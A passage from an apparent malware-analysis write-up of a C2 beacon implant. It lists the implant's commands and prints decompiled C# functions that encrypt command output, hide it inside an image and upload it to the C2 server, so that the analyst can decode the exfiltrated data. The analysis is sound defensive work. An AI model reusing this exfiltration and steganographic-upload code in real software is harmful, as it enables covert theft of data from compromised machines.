 After further analysis of the code here are the key takeaways:

The beacon communicates periodically with the C2 checking for new commands through URLs generated by randomURI and stringURLS (loaded in the first communication).

Every web request/response is encrypted with the same AES key (the one we extracted with the rest of the configuration for the implant).

The available commands are shown below:
 - multicmd
 - loadmodule
 - run-dll-background or run-exe-background
 - run-dll or run-exe
 - beacon


The beacon relays information back to the C2 server by hiding the response inside an image.

This is shown in the `Exec()` function below:

```csharp
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
{
	if (string.IsNullOrEmpty(key))
	{
		key = pKey;
	}
	string cookie = Encryption(key, taskId);
	string text = "";
	text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
	byte[] cmdoutput = Convert.FromBase64String(text);
	byte[] imgData = ImgGen.GetImgData(cmdoutput);
	int num = 0;
	while (num < 5)
	{
		num++;
		try
		{
			GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
			num = 5;
		}
		catch
		{
		}
	}
}
```

To recover the data sent by the implant we have to revert the operations applied in the construction of the image.

```csharp
internal static byte[] GetImgData(byte[] cmdoutput)
{
	int num = 1500;
	int num2 = cmdoutput.Length + num;
	string s = _newImgs[new Random().Next(0, _newImgs.Count)];
	byte[] array = Convert.FromBase64String(s);
	byte[] bytes = Encoding.UTF8.GetBytes(RandomString(num - array.Length));
	byte[] array2 = new byte[num2];
	Array.Copy(array, 0, array2, 0, array.Length);
	Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
	Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
	return array2;
}
```
